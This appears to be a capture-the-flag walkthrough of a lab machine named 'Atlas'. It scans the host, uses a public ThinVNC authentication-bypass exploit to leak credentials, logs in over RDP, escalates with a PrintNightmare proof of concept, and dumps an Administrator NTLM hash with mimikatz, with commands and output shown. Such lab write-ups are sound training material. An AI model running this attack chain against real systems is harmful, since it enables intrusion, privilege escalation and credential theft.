 # Atlas

> Ben Taylor | Oct 2, 2021

----------------------------------

# 1. With the Nmap default port range, you should find that two ports are open. What port numbers are these?

```
nmap -sV -sS -Pn -oA nmap/ports 10.10.179.10
```

Found open ports:
`3389`
`8080`

# 2. What service does Nmap think is running on the higher of the two ports?

Service:`http-proxy`

Ran a curl to see it a ThinVNC server running.

```bash
curl 10.10.179.10:8080 -v
*   Trying 10.10.179.10:8080...
* Connected to 10.10.179.10 (10.10.179.10) port 8080 (#0)
> GET / HTTP/1.1
> Host: 10.10.179.10:8080
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 401 Access Denied
< Content-Type: text/html
< Content-Length: 144
< Connection: Keep-Alive
< WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="ZfjsN/u25UBI1EkC+7blQA==", opaque="yfubGf8LgdSRhwvR4avwSEatShZZpL5nB6"
< 
<HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL  requires authorization.<P></BODY></HTML>

```

Was able to fond `https://github.com/MuirlandOracle/CVE-2019-17662/blob/main/CVE-2019-17662.py`  that will leak the password and user name by Authentication Bypass.

When ran the command I was able to get the user name and password word from the ThinVnc.ini file.

```
Username:       Atlas
Password:       H0ldUpTheHe@vens
```


RDP into the box using this commmand.

```bash
xfreerdp /v:10.10.179.10 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
```

Found the windows box is vulbuble to PrintNightmare. Download the POC and run it.

```powershell
PS C:\Users\Atlas\Desktop> Invoke-Nightmare
[+] using default new user: adm1n
[+] using default new password: P@ssw0rd
[+] created payload at C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_18b0d38ddfaee729\Amd64\mxdwdrv.dll"
[+] added user  as local administrator
[+] deleting payload from C:\Users\Atlas\AppData\Local\Temp\1\nightmare.dll
```

Moved up my powershell command with the new admin user `adm1n`

```powershell
Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
```

Moved over mimikatz and dump the hash for the Administrator on the box.

```
User : Administrator
  Hash NTLM: c16444961f67af7eea7e420b65c8c3eb
```